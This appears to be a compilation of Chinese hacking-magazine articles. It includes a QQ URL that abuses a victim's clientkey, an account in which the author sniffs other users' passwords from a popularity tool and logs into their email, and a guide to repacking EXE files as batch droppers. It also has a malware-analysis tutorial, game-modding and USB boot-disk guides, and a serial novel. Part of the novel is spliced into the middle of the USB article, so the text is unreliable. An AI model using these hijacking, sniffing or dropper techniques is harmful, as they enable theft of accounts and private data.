http://jump.qq.com/clienturl_254?clientuin=对方的QQ号码&clientkey=权限代码&opuin=账号*&hlw_dm_uin=对方的QQ号码&hlw_dm_pid=0&hlw_dm_id=3001&hlw_dm_type=1&ADUIN=对方的QQ号码&ADSESSION=1249142178&ADTAG=CLIENT.QQ.1881.MyTip.0
```

这个漏洞又让我想起了 CF 中的飞天漏洞，TX 封了蹲式飞天后，第二天又爆出了跳式飞天。这里我想说的是，当漏洞被封时不要气馁，要继续挖掘，也许还是有所收获的。

> **编辑点评：** 现在发现，当一个软件越做越大、越做越杂的时候，漏洞也就越来越多。看来以后要找漏洞，就得专选大软件，大软件没有漏洞的真是很少见。

# 阅后即焚术

谁都有些小秘密！但在网络如此发达的今天，即使与 QQ 好友私聊也不是安全的（有聊天记录可查），更何况是邮箱了。不过，如果你确实想与好友说几句很肉麻的话（比如向女友表白），那倒也不用发愁，因为我们可以使用“阅后即焚术”。

打开“https://privnote.com/”网站，注意是以 https 开头的，而不是 http。网站的内容非常简洁，我们可以直接在页面左边的“在下面写便笺”处输入自己想对好友说的一段话，然后单击选中下面的“当便笺被阅读时通知我”复选框，它会马上变成“您的邮箱：”，这样我们就可以输入自己的邮箱地址，而且后面还提供了“便笺索引：”，意思是当对方阅读了你发的密语后，你的邮箱中就会收到一封自己起好主题名的邮件，如图1。

接着单击网站下方的“创建新便笺”按钮，我们就得到了存有刚才写入密语的一个 URL 超链接，如 `https://privnote.com/n/vqhsllojioqydfvz/#jdqtrcrymffeqryb`。

现在你只须将它选中并复制，然后用 QQ 发给好友即可。对方单击进行阅读，之后就会自行焚毁。也就是说，这个超链接只能使用一次，当它第二次被打开后，出现的提示就成了“此便笺已被阅读”，根本没有其它的内容。同时，你的邮箱中也有一封“XXX 便笺已被阅读”的邮件，提示你的密语已经被好友阅读了。怎么样，还不赶快试下？

# JAVA 游戏小修改

图 宋宇明

现在的手机游戏是越来越多，从最早的贪食蛇，到现在号称手游神作的《刃夜》，游戏带给大家的娱乐效果是肯定的，如图1。

手机游戏目前主要以 Java 文件为主，但因为各类手机的屏幕尺寸不统一，造成有些游戏无法全屏或显示不完全，玩起来自然有点不爽。今天我们就将对 Java 游戏来点小修改，大家一起爽歪歪。

首先你要知道自己手机屏幕的大小。以我的为例，是 NOKIA 5800XM，根据厂家给出的参数，屏幕大小是 640×360，前面是长，后面是宽。如果不知道自己手机的屏幕大小，可上 `http://mobile.zol.com.cn/` 搜索一下自己的手机型号，那里可以找到详细的手机参数。当然，你也可以翻阅自己的手机说明书。

有些 Java 游戏在我的手机屏幕上显示不完全，只能半屏显示！如此煞风景的事情，我们现在就来弥补吧。

把那个 jar 格式的 Java 游戏用 WinRAR 打开，如图2，看见那个 META-INF 文件夹了吗？解压缩出来，再用记事本打开文件夹中的 MANIFEST.MF 文件，如图3、图4。

```text
MicroEdition-Configuration: CLDC-1.1
MicroEdition-Profile: MIDP-2.0
MIDlet-1: Anno1503,/icon.png,prz
MIDlet-Data-Size: 10000
MIDlet-Description: Anno1503
MIDlet-Name: Anno1503
MIDlet-Vendor: pascha
MIDlet-Info-URL: from.g.kwarc.com
MIDlet-Version: 1.3.1
MIDlet-Icon: /icon.png
Nokia-MIDlet-Original-Display-Size: 240,320
Nokia-MIDlet-Target-Display-Size: 352,416
```通常在打开 Java 的 JAR 文件时，我们可以看到文件中包含着一个 META-INF 目录，这个目录下会有一些文件，其中必有一个 MANIFEST.MF，这个文件描述了该 JAR 文件的很多信息。

```
Manifest-Version: 用来定义 manifest 文件的版本
Created-By: 声明该文件的生成者，一般该属性是由 jar 命令行工具生成的
MIDlet-Name: Java 游戏在手机中显示的名称
MIDlet-Icon: Java 游戏在手机中显示的图标关联的文件
MIDlet-Vendor: 游戏中显示作者的名称
```

其实这个文件里的内容无非就是告诉玩家关于这游戏的一些信息，大家来看最关键的两行内容：

```
Nokia-MIDlet-Original-Display-Size: 360,640
Nokia-MIDlet-Target-Display-Size: 352,416
```

对比图4，后面的数字不一样，因为我修改成了适合自己手机的屏幕尺寸，其中的 Nokia-MIDlet-Original-Display-Size: 360,640，就是设置游戏在 360×640 的屏幕尺寸环境下运行。修改完成后进行保存，然后再把文件重新塞回 JAR 格式的文件里面，覆盖掉原来的就可以了。

完成了游戏全屏幕运行，现在我们来修改一下，将这个游戏更个性化。看到图2中的那些 png 格式文件了吗？那些就是游戏中显示的图片，如图5。


如果想将游戏个性化，比如把这些图片进行修改，就可以先把它们解压出来，然后用 PhotoShop 打开，如图6，修改成自己想要的图片，最后塞回去覆盖原文件就行了（记得尺寸要跟原图片一样哦）。


另外，在 JAR 文件里还有个 sr.ini 文件，如图7，是游戏的控制说明，只要你看得明白那么多英文，修改其中的文字，变成你的个性说明，也不是难事。


最后，找到 icon.png 文件了吗？它就是显示在手机里的游戏图标，赶快改成你喜欢的图片，让自己看得更舒服，也让别人羡慕去吧。

# 浅谈恶意程序行为分析

从本文学会分析恶意程序行为

## 前言

前几天在一个客户的电脑上发现了一个古董级别的 Downloader，客户要求分析一下这个恶意程序的行为，正好就趁这个机会顺便给大家讲解一下如何分析未知的恶意程序。

## 一、准备工作

工欲善其事，必先利其器，我们分析病毒都要用到哪些工具呢？可能小菜们一看到这里就会想到逆向，其实分析恶意程序的行为并不用那么复杂。既然是研究行为，那就得看看这个程序都干了什么事情。

另外需要大家注意的一点就是，分析病毒、木马等最好是在虚拟机中进行，其他的像影子系统等等我没有用过，就不评价了，我这里用的是虚拟机 VMware 6.0。因为分析病毒有时候需要在系统中不断地运行，然后去监测程序做了哪些改动，而虚拟机可以方便地创建和恢复上一个干净的系统状态，省去了很多麻烦。

- Wireshark
- RegSnap

## 二、检查程序所属类型

现在的恶意程序有好多种，感觉对病毒的定义也变得十分广泛，木马、蠕虫等等，那么首先我们要确定我们分析的这个程序属于哪一种。

打开网址：www.virustotal.com，这是一个在线检测的网站，集成了全球知名的 40 多款杀毒引擎。上传我们的样本文件，经过检测后报告结果是 Trojan.Downloader，就是说该程序是一个下载者的木马程序，如图1。

好了，有了这个初步的定位，那么我们就需要知道程序运行之后对注册表做了哪些改动？创建、删除、修改了哪些键值？是否创建了新的文件？如果是下载者，应该还会连接到互联网的哪个地址下载哪些东西呢？


## 三、用 NetStat 查看网络连接

为了检测到木马，或者病毒开启了我们本机的哪些端口和外界通话，首先就要对本机现阶段开启的端口情况做一个备份。点击左下角的“开始”，在“运行”中输入“cmd”。在弹出的 DOS 窗口中输入命令：


NetStat -an 后按回车，结果如图2。

这里我们将这个结果保存，在后面时要对端口状态进行对比。


## 四、用 RegSnap 来监测程序

RegSnap 是优秀的注册表快照工具，它能够详细地向你报告注册表及其他与系统有关项目的修改和变化情况，报告结果既可以纯文本的方式，也可以 HTML 网页的方式显示，非常便于查看。


RegSnap 报告的内容有：注册表的变化情况；Windows、System 和“我的文档”目录下文件的变化情况，包括删除、替换、增加了哪些文件；系统配置文件 Win.ini 和 System.ini 的变化情况，包括删除、修改和增加了哪些内容；自动批处理文件 Autoexec.bat 是否被修改过。

首先，我们运行 RegSnap，然后选择“文件”－“新建”，再选择“制作完整的快照”，如图3，“确定”之后 RegSnap 会保存当前的注册表和系统文件，如图4。

然后我们将该快照保存为 test1.rsnp。保存系统当前快照之后，不要做多余的操作，我们马上运行需要检测的程序“木马.exe”，等待一段时间，因为程序运行之后可能有部分缓冲，我们要让它完全运行。

运行完程序后我们依照上面的方法对运行了恶意程序的当前系统再次创建一个快照。接着对比两次快照的结果，就是该病毒程序对系统修改的行为啦。

在 RegSnap 中选择“文件”－“比较”，如图5，程序会自动给出一个报告。


## 五、具体分析

### 1、端口分析

现在我们就可以分析下这个程序的行为了，再次运行 NetStat -an，查看当前的端口状态。这里我们会奇怪地发现端口状态没有任何变化，难道是杀毒软件误报了？不要着急，我们继续分析。

### 2、注册表和系统文件分析

通过 RegSnap 的报告，然后结合部分经验来查找被修改的地方。这个确实只能说是经验啦，因为你每一步的操作都被写到了注册表中，哪些有用，哪些没有，是否添加到了自启动项，是否插入或者关联文件等等，这些都需要慢慢地积累才能更快地把这些信息找出来。如图6，上面这个由木马创建的键值就对 IE 进行了修改。

## 六、抓包

通过上面对端口信息和运行程序前后两次结果的对比，我们并没有发现有异常的情况出现，那么这是否说明是杀毒软件误报呢？但是那么多的杀软误报，概率应该是非常低的；那我们就进一步抓包分析一下吧。

运行我们的 Wireshark，选择“Capture”－“Options”，如图7。


进入设置菜单，然后在“Capture”右边的下拉菜单中选择我们的网卡，我这里虚拟机的网卡设置如图8。一切设置好后，我们点击“Start”开始抓包。等待一会儿后，显示的数据如图9。


从图9中我们可以看到，IP 地址 192.168.1.4 分别用 TCP 连接方式向 221.192.134.165 和 58.19.159.45 两个网址进行了请求。

点选图中所示，在数据包的分析中可以看到，从 58.19.159.45 的 IP 地址请求的是一个 .ini 的文件下载。通过这两部分解析，我们就说这个程序也确实符合下载者的运行原理。但是为什么在端口中没有监听到呢？NetStat -an 命令可是能够看到所有端口连接的啊。

我给大家再进一步解释一下：我们 ping 刚才的两个请求地址，会发现该地址没有响应，也就是说下载者木马请求的地址由于某种原因现在它请求不到。那么作为 TCP 连接，木马程序首先会发送一个 SYN 请求和目标进行连接；等待目标主机发送一个 ACK 应答。但是如果由于其他原因使得主机没有收到 ACK 应答包，那么则自动丢弃数据包，TCP 建立连接失败。

基于上面的推测，我写了一批处理程序。在我运行木马程序的时候，不断地去刷新 netstat -an 的端口列表，终于让我抓到了如图10的信息。从图10中我们可以看出状态标志为 SYN_SEND，说明发送了一个 SYN 包，目的地址为 221.192.134.165 的 80 端口，这和我们抓包的结果是一样，同时也说明了 netstat -an 查看有没有开放端口的原因是因为 TCP 连接根本就没有建立成功。

TCP 三次握手的速度是非常快的，所以建立 TCP 三次握手的时间也是非常快的，我在前面几次执行 netstat -an 的时候并没有发现有连接建立。


## 七、逆向分析

文章写到这里，我们已经可以把这个木马的行为分析出来了，如果要深入分析，那就需要逆向来进一步分析了。木马加了 UPX 壳，但是我手动脱到一个嵌套循环之后有一个 call，F4 到 call 位置，然后单步就过不去了，试了很多种方法，每次走到 call 那里程序就失去响应了，只能重新打开，不知道是什么原因。关于逆向方面的问题，我这里就不详细说了，如果有机会可以单独作为一篇再来跟大家进行交流。

# 由踩校内软件所引发的盗号问题

从本文学会简单的软件分析

某周学校因为 H1N1 封校停课了，只好整天窝在宿舍里无聊地在网上翻，偶然间发现了一个校内刷人气的软件，就是 CSUBOY 人人网人气之星，如图1。经过试用，确实不错，只要按照软件的提示操作就能开始刷人气，如图2。


我首先想到的是，软件为什么需要你提供账户和密码呢？我记得在校内上有专门的踩人气群组，里面的方法是通过互动来实现踩人气，因此我联想到这个软件会不会就是这个原理呢？即通过把注册用户的登录名和密码存在服务器数据库中，当客户端软件登录后，可以从数据库一一获取登录数据，然后在本地登录，最后用登录的账号访问你指定 ID 的校内主页，从而实现最终的目的。

如果真的是这样，恰好软件又没有对通信过程中的数据进行加密的话，那么我们岂不是就可以截获别人的校内账号吗？于是为了验证这个想法，我就用 WinsockExpert 对正在进行刷人气的软件进行抓包，来看看是不是我想象中的样子。

结果如图3，果然找到了，登录一下也成功了。如果你的运气足够好，说不定你拿到的这个密码也正是他登录邮箱时的密码。我试了好多个，能够成功地登上几个邮箱，虽然成功率不是很高，但是一旦这个邮箱里有这个人的重要信息或资料，这将是毁灭性的打击。比如说我就登上了一个人的邮箱，他的支付宝激活邮件还在邮箱中，这是一个多么恐怖的事情啊！

如果你想用到这款软件，我个人认为到目前为止，预防措施就是在使用软件刷人气之前，先把校内里重要的个人信息给去掉，然后换一个密码，这个密码可以是类似 123456 之类的弱口令，只要保证不要和你所使用的邮箱的密码是一样的就可以了。

经过我的研究，还有一个方法：我判断登录的时候，需要正确的校内账户，而注册码是跟 ID 有关的，与账户无关，也就是说，我们可以注册一个马甲账户，然后用我们想刷人气的校内账号的 ID 值去搞定一个注册码，最后在登录的地方，账户填写马甲账户，ID 填要刷人气的账户 ID，注册码填写用相应 ID 获得的注册码。


举个例子：A 账户，他的 ID 是 123，用该 ID 获得的注册码是 456；B 账户是马甲账户。当登录的时候，登录用户名和密码填写 B 账户的信息，而 ID 和注册码分别填写 123 和 456。

但是感觉好像有问题存在，无意中打开了浏览器，进入了校内页面（我的校内设置的是自动登录），却发现登录的不是我自己的账号，我意识到确实存在问题。


此次仅供大家研究，不要用于非法途径，我已经向软件作者说明了该漏洞。

# EXE 转 bat 文件的解析

黑客手ALL

> 从本文学会解析 EXE 转 BAT 文件

在某些特殊的场所，我们需要将 EXE 文件转换为 bat 文件执行，至于在哪些地方，大家自己去找吧！

先来给大家介绍一下 EXE 的运行原理吧！**EXE 文件，就是大家通常所说的程序文件，也叫可执行文件。**但是大家不要单一地理解，因为程序文件或可执行文件也还包括 com 等等。EXE 文件的运行，其实就是 CPU 执行 EXE 文件中保留的二进制数据。但是这些二进制数据常用十六进制数据表示，接触过 WinHex、UltraEdit 等工具的朋友应该知道。

例如用 WinHex 打开记事本工具 Notepad.exe，如图1，这些十六进制数据就保存着程序的执行代码。


知道了 EXE 的执行过程，那么我来展示一下 EXE 转换后的 bat 文件。在此我会给大家提供工具 SuperExe2bat，以方便大家的理解！如图2，就是利用工具转换记事本 Notepad.exe 文件得到的 bat 文件。


现在，我们将上述文件中的两处语句去掉：

- 第一处：
  - `@debug<tmp11>nul`
- 第二处
  - `@debug<tmp22>nul`
  - `@Copy /b /y tmp1+tmp2 no.exe`
  - `@start no.exe`
  - `@del tmp*`

（注：利用记事本搜索字符的功能查找关键字 debug，即可找到这两个地方，快捷键 Ctrl+F）

更改后的文件内容，第一处修改后的显示如图3，第二处修改后的显示如图4。


我们执行 bat 文件后，大家会发现生成了两个临时文件 tmp11 和 tmp22。tmp11 与 tmp22 用来存放 EXE 原文件中保存的十六进制数据，我们只需编译执行这些十六进制的数据就行了，如图5。下面来给大家介绍一下这些命令的作用：


`rcx` 指 `-RCX`，`-R` 是寄存器显示和修改命令；CX 就是指寄存器，即常说的“代码段寄存器”。

`502` 是指文件十六进制所占的存储空间，计算方法如下：

`600 - 100 + 2`

结束地址 - 起始地址 + 结束地址中存放的数据（以字节为单位）


然后建立一个批处理文件，写入命令如下：

```bat
@Debug <tmp11
@Debug <tmp22
@copy tmp1 /b + tmp2 /b notepad_bak.exe
```

注：如果是一个比较小的文件，它只生成了一个 tmp11 文件，我们利用 debug 汇编后得到的 tmp1 文件直接加上扩展名 EXE 就可以使用！这个 copy 命令就是将分开的文件以二进制的方式融合为一个文件。

明白了上面的过程，我相信大家应该都可以自己将 EXE 转换为 bat 文件了吧？下面将 debug 命令集的帮助信息粘贴出来，方便大家阅读。

```
Debug 命令集：Debug 程序可用于对程序的调试
命令格式：Debug [盘符][路径][文件名.扩展名]
Debug 中显示的数据均为十六进制

-U  反汇编
两种格式：-U[address]  -U[range]
(1) -U200
(2) -U200 209

-D  显示内存命令
两种格式：-D[address]  -D[range]
(1) -D 200 209
(2) -D DS,209
(3) -D 200L9
以上用法是等效的，可以指定段地址、段寄存器地址；默认的段地址是 DS 寄存器

-G  运行程序命令
格式：-G[=address][address2]
(1) -G=100
(2) -G=100,120

-R  寄存器显示和修改命令
格式：-R[Register]
(1) -R            显示所有的寄存器
(2) -R BX         显示 BX 并接受新值
(3) -R F          显示 FLAGS 寄存器并接受新值

-T  跟踪程序命令
格式：-T[=address][value]
address 为开始执行的地址，value 为执行指令的条数

(1) -T=100  从 CS:100H 处单步执行一条指令，并显示所有寄存器
(2) -T      从 CS:IP 处单步执行一条指令，并显示所有寄存器
(3) -T=100 3 从 CS:100H 处单步执行 3 条指令，并显示 3 次寄存器

-A    汇编命令
格式：[=address]
允许输入汇编语句，并把缓存放在以 address 为开始的地址中。
注意，DEBUG 接受的和显示的都为十六进制数，汇编语言中不能含有变量符号

(1) -A 100

-N    文件命名命令
例如：-N HELLO.EXE
    文件命名为 HELLO.EXE，把文件名放在 CS:5C 和 CS:6C 处的文件控制块中，以便下一步用 L 命令把该文件读入内存，或用 W 命令以该文件名将指定的一段内存存盘
例如：-N HELLO.EXE
-L
取数据到内存 address 位置

-W    写盘命令
两种格式：
-W[address] 将内存 address 位置的数据写到有 N 命令指定的文件
-W[address][driver][firstsector][number] 将内存 address 位置的数据写到磁盘扇区

-E    修改内存单元命令
格式：-E[address][list]
例如：-E DS:100
从 DS:100H 处开始输入数据，空格键为继续，Enter 键为退出
-E DS:100 9B'ABC'

-H    十六进制运算命令 H{Hex}
格式：-H var1 var2

-M    移动命令
格式：-M range address
-M DS:0L9 100

-Q    退出 Debug 命令
```

# U 盘系统盘制作篇


风语·零眼阅又是今年的最后一期了，每到这个时候，心里总会有一种茫然的感觉。就是这么地不经意间，突然发现，原来时间过得这么快！去年，一到这个时候总是会想，明年会怎样呢？然后一年就这么过去了……接着开始继续憧憬，期望会怎样呢？继续经历一些人和事，或平淡无奇，或刻骨铭心。然后某一天，你会发现那些深处某些记忆已经成为你一生的财富；然后某一天，你会发现每天都很努力地生活，就是对岁月最好的纪念。

# 从本文您可以学到：

怎样通过 UltraISO 来制作 U 盘系统盘

亲爱的“黑手”读者们，好久不见啦！时隔 2 年，小水再次出山，不好意思，有必要解释下，我这两年都忙着养活自己去了，啊呵，好了，还是回归正题吧！

正如标题所写，看了上期某同志写的《U盘启动盘制作与量产》（以下简称为“U产”），我觉得模式太多，软件太多，而且那位同志如果研究进去了，或者像我一样有十几、二十个 U 盘，他就会明白：固件、芯片，这两个概念对于做这个 U 盘启动盘的难度了。

想必很多读者按照“U产”文章中的方法进行操作，会遇到一些问题，比如 U 盘启动盘无法制作，或做好后插到电脑上启动不了了。

本文针对这些情况，详细介绍一种方法，适用于 N 多系统启动盘的制作，兼容绝大部分 U 盘（我自己还没失败过）甚至记忆卡加读卡器，或者数据线连接手机，都可以制作。而且制作好以后，剩下的空间还可以继续当做 U 盘来使用。不浪费版面了，感兴趣就跟着我走……

**在此要提醒一下读者朋友们，看书要仔细，尤其是做比较危险而又让你容易付出金钱代价的事情时！**

我们需要使用的工具是“软碟通”，本名 UltraISO，它是一款功能强大，方便实用的镜像文件制作／编辑／转换工具，它可以直接编辑镜像文件和从光盘中提取文件，也可以从光盘复制制作镜像或者将硬盘上的文件制作成 ISO 文件。同时，你也可以处理 ISO 文件的启动信息，从而制作可引导光盘，其集合了 ISO 文件提取、编辑、制作、刻录等一系列功能！

软碟通的最新版是 V9.3.5.2716，大家可以到网络上去下载，然后一直点击“下一步”进行安装，最后要重启一下，再运行时提示输入注册码，我们输入即可。再次重启软件，就可以看到主界面了，如图1。

现在在网上下载的系统盘一般都是 ISO 文件，包括最新的 WIN 7，大家可以去微软官网下载。我们在得到了系统 ISO 文件


图1 软件界面

图2 看到 ISO 文件的内容

## 夜袭神来临 V

至此，俺也不知道结局。

奥巴马来中国了，顺便谈了下 Twitter 和网络开放的问题。他说：“我一直是坚定地支持互联网开放的使用，我是非常支持不审查内容。在美国我过去谈过，这是我们的一个传统；我也认识到不同的国家有不同的传统。但是我可以告诉你，在美国，我们有没有受限制地使用互联网的机会，这是我们力量的来源，也应该受到鼓励的。但是我也应该很诚实地告诉各位，作为美国总统：有的时候我还是希望信息不是那么自由地流通，因为这样我就不需要听到人们在批评我；我认为很自然的，呵呵。”是不是感觉这位黑人总统还挺好玩的？据说他还送了一副围棋给我们的主席，看来中美之间还得继续博弈啊。

离开他们后，徐洛问夏彩为什么没有留下来，她静静地说：

“CAT，C-A-T，Cheryl at tanghe。她告诉世界，她就在瑞禾高中，是想找她的人示威还是想向谁求助呢？”

“Cheryl是谁？”

“两年前，Aaron 博士一家在大火中不幸遇难，这是媒体的报道。可是据我的调查，他们是被害的，而他们的儿女 Basil 和 Cheryl 幸存下来，并在 FBI 的保护中。Aaron 是世界一流的推理大师及电脑工程师，而他的妻子苏洋则是世界首屈一指的心理专家和催眠大师。”

“那又怎样？”

“那你知道他们为什么相遇并结合，为什么受到 FBI 的保护吗？因为他们接受了联邦政府的一个机密任务，也许是要他们开发出一个以电脑为媒介，将他人催眠的软件吧。”

“你到底想说什么？”

“我们去买乐百氏吧。”

“等等……”徐洛停下脚步微微皱起眉头，“炸弹和催眠瓦斯哪儿来的？”

“哇，今天的太阳好圆哦。”夏彩故意对着太阳惊叫着，露出一副天真无邪的表情。

Drew 说，应该先向总部汇报。苏景看了他一眼，告诉他这是……

后，在“软碟通”里面打开它，会在右上方的框内看到 ISO 文件的内容，如图2。

系统 ISO 文件里面每个东西都很重要，非专业人士还是不要改动的好。插上 U 盘，然后依次选择“启动”－“写入磁盘映像”，如图3，会弹出如图4的“写入硬盘映像”设置框。

这里的“写入方式”有四种，根据自己的需要进行设置即可，一般选择 USB-HDD 或者 USB-HDD+。在写入之前可以格式化一下 U 盘，然后单击“写入”，会弹出如图5的提示。

我们这里单击“是”，经过一番等待，文件写入完毕，如图6。这个时候关闭“软碟通”，弹出 U 盘，这个步骤是必须要做的，小水就是有几次没关软件直接冲动地拔下了 U 盘，导致了 U 盘不能启动。

系统启动盘的制作到这里就完成了，是不是很简单呢？以上只是以 XP 系统为例来制作系统盘，我们还可以选择使用 PE 的 ISO 或其他系统的 ISO 进行 U 盘启动盘的制作，这些都是小水亲自试过的，完全可行成功，感兴趣的读者们不妨一个一个地试试，只要你的 U 盘够大，什么系统都可以装进去。

这里再次发散一下思维，如果我们装 PE 系统，只需用到一点容量，剩下的空间做什么呢？我们可以利用“软碟通”的 ISO 提取功能，把其他 ISO 系统里面的 GHO 文件提取出来放入 U 盘内，如图7。

这样，在启动 PE 以后，我们可以选择更多的 GHO 系统文件来进行安装，省去了多次制作启动盘的时间，而且 GHO 文件随时都可以更新！

文章到此结束，欢迎大家多多购买“黑手”杂志，也提前祝大家圣诞快乐哦！

> **编辑点评：**
>
> 本文为我们制作自己的 U 盘启动盘提供了一个更简便的方法，不过各有各的优点，你可以跟上期的文章对比一下。这样制作 U 盘启动盘虽然相当简单，但你带着到处跑的时候要注意病毒哦！而像上期中 CD-ROM 的方式虽然麻烦了一些，但至少不用担心你的 U 盘染毒。没有完美的东西，只有最适合你的，大家根据自己的需要选择吧。

# 黑小说

不可能的。

“你以为我那样乖乖地被抓只是为了救你么？你们 FBI 也想得到它，而我不会把它交给任何人。”

“那好，我也告诉你，FBI 选我也不只是因为我是中美混血儿，是最适合演你哥哥的人！而是因为我绝对不会背叛他们，一定会把东西上交！”

“走狗。”

“谢谢。”

“你！……”

直升机卷起的风“呼”地赶走一群飞鸟，机舱里的男生面无表情地看着地上的面包车一点一点地变小，最后变成了一个小黑点。他脖子上戴着一条黑色的金属项链，挂坠是一个黑色金属圆环，上面整齐地镶着一圈钻石。他穿着一件深蓝色的豹纹外套，里面的黑色背心隐隐地勾勒出他完美的肌肉线条。从锁骨开始，喉结，下巴，嘴唇，鼻梁，到眉，线条流畅而清晰。他深深地把视线投向千里，头仰在一边，看着窗外的天空，面无表情，深黑的瞳仁空洞而没有焦点。

整个机舱弥漫着压抑的空气，驾驶员觉得应该说点什么，他有点担心身后的这个人，不知道老板在知道了他这次任务失败，会怎样处理他。可是，这次怎么就这样失败了？在少爷身上他从没有见过失败，然而这次……同时，他也知道，在这个偏爱深蓝色的阴冷少年面前，说错一句话意味着什么。

那么——

“少爷，下一步去哪里？”

青年拨弄着右手食指上的银戒指，缓缓开口……

车子已经开进了市区，苏景看着窗外的树一排排地向后飞，不知不觉入了神。那些风景，那些人，她还没来得及看就消失不见了。何瑞从后视镜里看见苏景一直这样愣愣地看着窗外，从 Drew 下车开始就一直这样。剧场落幕，所有演员一一退场，本来热闹的车厢变得冷清。

“景，下一步去哪儿？”

苏景摸着 Drew 衣服上掉下的纽扣，缓缓开口……

“芬兰。”

广场上的鸽子“哗”的一声全都飞了起来，白色的羽毛从空中飘落下来，小孩子惊喜地看着天上的羽毛，追着鸽子向远处跑去。

两秒钟后，苏景觉得自己的脑袋被狠狠敲了一下。回过神的时候，何瑞正反身跪在椅子上扒着靠背，此时的表情在苏景看来可以用四个字精确概括：面目可憎。

“装什么酷啊，你以为想去就去啊？！先找个地方……”然后，突然的一阵急刹车把何瑞还没来得及说出口的“住下”两个字狠狠地甩出了窗外。

苏景和何瑞一个撞了头，一个撞了腰，“啊啊哇哇”地一通乱叫，最后司机慌乱的道歉声也掺和了进去，暮春的午后格外热闹。

乱叫之后，何瑞揉着腰看向那万恶的肇事者，然后……定格，司机慌慌地叫了声“老爷”。

苏景揉着脑袋，视线穿过两尊石化的雕像落在对面警车前站着的那个“老爷”。

半小时后，苏景如愿以偿地住进了何瑞家。进门的时候，她也不出自己预料地看见了许多奢侈的装饰品，然后心里暗暗咒骂了声“万恶的资产阶级”。而通过这次事件，她也发现何瑞在他爸面前就是只病猫。同时，她也对这位威严的老爷下了个自认为非常准确的定义：“成熟而充满魅力的中年老男人。”然后，她的脑袋被何瑞狠狠地敲了一通：“你会被他害死的。”

- 入住身份：何瑞的新同桌。
- 理由：新家装修，无良父母双双出游，可怜弱女无处借身。

暂放下所有的事宜，苏景决定在这个免费的豪华别墅里享受几天，全当散心。

望着雪白雪白的天花板，苏景突然想，如果爸爸妈妈还在的话，三个人一起看着天花板，一起讲故事，当然，还有哥哥。可是，哥哥在哪里？现在是什么样的？完全想不起来……所有关于“哥哥”的影像全部和一个不相干的人重叠，然后变得越来越清晰，就好像原本那个叫做哥哥的人就是他。

“切……”苏景翻了个身把头埋进被子里。

突然想起了一句话：“流泪，是为了想起一个人，努力去想一个人，是为了提醒自己，至少还有一个人值得你哭泣。”

那么，如果忘了怎么哭，意味着什么？

隔壁的房间里，何瑞做着一件和夜神月一样的事情——入侵身为警察局长的父亲的电脑，所有的资料只一夜复制了出来，档案名称：4·14连环杀人案——复活的杰克。

工作太晚的必然后果是第二天的眼皮打架。但是，在“老爷”面前，何瑞永远是一副积极健康向上充满朝气的“四有”好青年。当“老爷”上班后，何瑞叼着面包片像个被戳了一针的气球瞬间软在了餐桌上。

十分钟后，何瑞被一群佣人架上了私家车。苏景把手插在身后跟在他们后面摇着脑袋，一副惋惜状，“现在的年轻人哦。”

上课的时候，何瑞诈尸一般突然竖了起来，迅速写了张纸条传给苏景后又安详地趴下去了。

“关于杰克，你有没有什么线索？”

苏景拿出一副黑框眼镜戴上，以一副三好学生的姿态看了何瑞两秒，然后说：“我不做侦探好多年。”

“去死。”何瑞踢了苏景一脚，结果踢在凳子上，疼得他以一种挣扎的面目再次睡死了过去。

醒来的时候，苏景又消失了。凭着侦探敏锐的直觉，他也翘了课追到图书馆的角落。

“又在上网，又在上网……”何瑞摇着食指，以一副孔老夫子教育学生的姿态，摇着步子晃到苏景面前，“你说说你，冒着那么大的风险回家就为拿这些东西？没有电脑就不能活了？”

“我在给自己放假。”苏景一边看着《暮光之城》，一边时不时地点开 QQ 回复信息。两分钟后，何瑞加入了苏景的行列，这种时候就该来一包爆米花了。

“你会被你爸害死的。”

“我也给自己放个假。”

然后两个人没心没肺地在空无一人的图书馆大声地笑着。图书馆外的竹林簌簌地响起来，还有小鸟的叫声，午后的阳光：绿色，白色，黄色……一切颜色都在树荫里摇啊摇啊，然后变得安静。

“你还做你的网络侦探吗？”

“没想好……最开始的目的已经达到了，现在做什么都没有多大的意义，我只想去芬兰。”

“不想知道我是怎么找到你的吗？”

“哦，都忘了那回事了。”

“扑通。”何瑞重重地从椅子上摔了下去，然后爬起来的时候对着苏景脑袋又是一通猛敲。苏景摸着这几天以来经常被敲的脑袋，听着何瑞充满自豪的演讲。

“其实啊，有些东西早就不重要了，不是吗？自从你出现，我就很注意你了。但是，单从原来的案件是不太可能找到你的。不过，你还记得那个抢完钱包就上网，然后被你抓住的那个人吗？按道理，就算你万事神通也不大可能准确判断他所在的那个偏僻小网吧。那就只有一种可能，就是你很熟悉那里。于是，我就想啊，你会不会就住在那里呢？后来我就发现了你的名字 CAT。C-A-T，Cheryl at tanghe。哈哈，我厉害吧？而从你上网的时间可以判断出你是个学生，而附近的瑞禾高中的作息时间基本符合你的出没时间。再查一下校记录，就很简单啦，只要知道你家在启山，要发动电脑追踪也不是什么难事了。还有啊，夏彩也早就发现你了……”

耳边，何瑞的声音渐渐变得遥远，然后变成了“吱吱”的蝉鸣。苏景想着，要是一直这样生活也挺好的，吃吃喝喝玩玩，过着太上皇一般的生活。

一个礼拜很快结束了，整个礼拜刘珊都显得很兴奋，她告诉苏景，姐姐周末就会回来了，然后夸张地拍着苏景的肩膀说：“周一的时候，带好吃的给你哈。”然后拎上书包飞快地溜走了。苏景揉着被她拍得生疼的肩膀，也踢了何瑞一脚，然后看着惨叫的何瑞平静地告诉他这叫疼痛转移。

两分钟后，苏景拎着脑袋坐上了何瑞家的车。

每日例行的沉闷晚餐后，何伯伯接了个电话立刻出去了。苏景挪了挪，又挪了挪，最终在何瑞诧异的眼神中蹭到了他身边，然后扭扭捏捏，忸怩作态。最后，何瑞终于忍不住了。

“你到底想干什么？！”

“其实很简单啦，教我电脑。”

“啥？！”

然后，苏景露出一副兔斯基的表情，双手摊开，喃喃地不知在说给谁听。

“你不要以为我电脑很强悍，其实我一窍不通的。什么数据库啊都是……Drew 帮我弄的，我的能力仅限于看电影、聊天、下载……嗯……貌似没了。啊呀呀……你怎么啦？不要晕啊……我又没说我很厉害……”

这一夜，风清云高，月牙很亮，洒进别墅落地窗的那些银光也显得很温柔。但是，屋子里的何瑞很纠结。

首先，直到现在他还是没有弄清楚，苏景到底想学哪个方面的内容。

“你想学哪些方面？”

“你会什么？”

“……”

“好吧，从简单的开始学。”

“C 语言行不？”

“C 语言？那是什么东西？”

“……”

“好吧，你随便教点什么吧。”

